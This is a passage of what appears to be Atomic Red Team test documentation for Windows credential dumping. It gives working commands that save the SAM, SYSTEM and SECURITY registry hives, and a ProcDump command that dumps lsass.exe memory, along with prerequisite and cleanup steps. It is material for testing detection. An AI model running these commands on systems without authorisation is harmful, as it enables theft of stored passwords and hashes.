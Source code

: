 **Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
reg save HKLM\sam %temp%\sam
reg save HKLM\system %temp%\system
reg save HKLM\security %temp%\security
```

#### Cleanup Commands:
```
rm %temp%\sam
rm %temp%\system
rm %temp%\security
```





<br/>
<br/>

## Atomic Test #5 - Dump LSASS.exe Memory using ProcDump
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump. The tool may be downloaded from https://docs.microsoft.com/en-us/sysinternals/downloads/procdump.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | Path | C:\Windows\Temp\lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | Path | PathToAtomicsFolder\T1003\bin\procdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
procdump.exe -accepteula -ma lsass.exe #{output_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```
if (Test-Path #{procdump_exe}) {0} else {1} 
```
##### Get Prereq Commands:
```
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "$env:TEMP\Procdump.zip"
Expand-Archive $env:TEMP\Procdump.zip $env:TEMP\Procdump -Force
New-Item -ItemType Directory (Split-Path #{procdump_exe}) -Force | Out-Null
Copy-Item $env:TEMP\Procdump\Procdump.exe #{procdump_exe} -Force
```
